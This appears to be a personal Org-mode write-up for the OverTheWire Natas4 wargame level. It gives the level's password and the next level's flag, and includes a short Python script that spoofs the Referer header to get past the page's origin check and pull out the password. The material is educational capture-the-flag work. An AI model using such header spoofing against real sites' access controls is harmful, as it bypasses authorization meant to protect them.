 :PROPERTIES:
:ID:       d3e3a109-5359-41a3-8199-69555a926ca6
:END:
#+title: Natas4
* Previous
[[id:2041bd3d-7f8f-48f4-ad64-3a710eafb62d][Natas3]]

* Password
Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

* Flag
iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

* Notes

This page can only be accessed if we are comming from natas5.
This is checked with the referers field in the headers of the GET request.


#+begin_src python :results output
#!/usr/bin/env python3

import requests
import re
from natas_pass import passwords

username = "natas4"
password = passwords[username]

url = "http://{}.natas.labs.overthewire.org/".format(username)

response = requests.get(
    url,
    auth=(username, password),
    headers={"Referer": "http://natas5.natas.labs.overthewire.org/"},
)

content = response.text
# print(content)

p = re.findall("([a-zA-Z0-9]{32})", content)
if p and p[0] == password:  # filters out the previous password which is also in the page
    p.pop(0)

print(p[0])


#+end_src

#+RESULTS:
: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

* Next
[[id:4d555387-119c-40cc-8483-819b38b1ef08][Natas5]]
